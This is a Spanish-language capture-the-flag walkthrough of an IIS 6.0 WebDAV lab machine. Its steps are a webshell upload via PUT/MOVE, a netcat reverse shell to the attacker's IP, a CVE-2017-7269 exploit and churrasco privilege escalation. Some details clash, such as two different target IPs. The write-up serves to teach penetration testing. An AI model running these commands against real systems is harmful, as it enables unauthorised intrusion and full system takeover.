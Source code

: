 ## Summary

Tags: #Windows #HTTP #IIS #WebDav #ReverShell #BufferOverflow #RCE #JuicyPotato #Churrasco #Server2003 #SearchSploit #Metodos 

- IP -> 10.10.10.130
- Ports -> TCP (80), UDP (idk)
- OS ->  Windows IIS
- Services & Applications
    - 80 -> 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p80 ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```
Pero no encontramos nada.

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

# Encontramos 
	# Microsoft-ISS/6.0
```

En la captura de Nmap además de encontrar que el puerto 80 esta abierto, podemos ver que nos sale los métodos permitidos.
```bash 
# Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH... 
# Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND...

	# PUT = Subir un archivo al servidor 
	# MOVE = 'Mover' el archivo o cambiarle de extension

# Type WebDav
```

Como vemos que hay un WebDav podemos usar la siguiente herramienta para testear que tipo de archivos podemos subir al servidor. Lo que hace la herramienta es que subirá todo tipo de archivos y nos reportara cuales si logro subir. 
```bash 
❯ davtest -url http://10.10.10.15 
```

* Para un **IIS** una extensión critica es la de **asp o aspx** 

La herramienta nos reporta que no podemos subir la extensión .aspx. Por lo que subiremos un archivo malicioso con otro tipo de extensión que sea permitida, después con el archivo subido, cambiaremos su extensión con el método MOVE a la extensión de .aspx.

Buscaremos la Webshell de Windows para que nos la interprete IIS y así poder ejecutar comandos.
```bash 
❯ locate cmdasp.apsx    # Buscaremos el archivo en nuestra maquina de atacante 
```

```bash 
❯ curl -s -X PUT http://10.10.10.15/cmd.txt -d @cmdasp.aspx

	# d = Subir una data que es indicada con el @ y sera el archivo de la cdm
```

Le cambiamos la extensión al archivo que hemos subido
```bash 
❯ curl -s -X MOVE http://10.10.10.15/cmd.txt -H "Destination:http://10.10.10.15/cmd.aspx"
```

Ahora en la Web, al final de la url le colocamos el cmd.aspx y así podremos obtener la Webshell.

Como tenemos ejecución remota de comandos. Haremos una ReverShell a nuestra IP y al puerto 443. Pero primero buscamos el nc.exe para Windows en nuestra maquina de atacante. 
```bash 
❯ locate nc.exe
```

Compartimos el archivo a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Ahora en la consola de la web hacemos lo siguiente:
```bash 
\\10.10.14.11\\smbFolder\\nc.exe -e cmd 10.10.14.11 443

	# e = Ejecutamos el Netcat con una cmd, que nos la enviaremos a nuestro equipo por el puerto 443
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

### Segunda forma de intrusión 

Otra forma de hacer la intrusión es por medio del Buffer Overflow
```bash
❯ searchsploit IIS 6.0                        # Para buscar un exploit
```

```bash 
❯ searchsploit -m 41738.py                    # Para descargarnos el exploit .py que nos ayudara a hacer el Buffer Overflow para el IIS 6.0

	# m = move


# O podemos clonarnos el siguiente directorio con un exploit mejor
❯ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```
Al momento de mirar el contenido del exploit, podemos observar que usa el método **PROPFIND** y este método si esta disponible en el servidor. 

Ejecutamos el exploit de la siguiente manera:
```python 
❯ python2 iis6.py <IP Victima> 80 <IP Atacante> 443

	# ip = IP de la maquina victima 
	# 80 = Puerto victima 
	# ip A = Ip de la maquina de atacante
	# 443 = Puerto a abrir de la maquina de atacante  
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

## User

* Ahora nos hemos convertido en NT authority\\network service 


* Ahora buscaremos la forma de ser NT Authority\\System

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetImpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato, este es para servers del 2003
```

Nos descargamos el de la siguiente pagina:
* [Juicy-Potato-Server-2003](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

Descargamos el archivo de churracco.exe y lo compartimos a la maquina victima por un servidor smb. 
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

En la consola de Windows para transferirnos el archivo, primero debemos de ir al dir **Temp** y después colocamos el siguiente comando. 
```python
❯ copy \\10.10.14.11\\smbFolder\\churrasco.exe churrasco.exe    # Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante

	# IP = IP de atacante
	# smbFolder = Nombre del folder del recurso compartido
	# File.exe = Nombre del archivo .exe a copiar de la maquina de atacante
	# File.exe = Nombre del archivo .exe en el cual se depositara el archivo copiado
```

Ejecutamos el churrasco de la siguiente manera
```bash 
❯ churrasco.exe "\\10.10.14.11\\smbFolder\\nc.exe -e cmd 10.10.14.11 443"           # Al momento de ejecutar el churrasco debemos de colocar el comandos a ejecutar 
```

Pero antes compartirnos el Netcat a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Nos ponemos en escucha 
```bash 
❯ rlwrap nc -nlvp 443
```

## Root

Ahora somos NT Authority\\System
Buscamos la primer flag del usuario user.txt en Lakis, en donde antes no nos podíamos meter y la segunda flag en Administrator
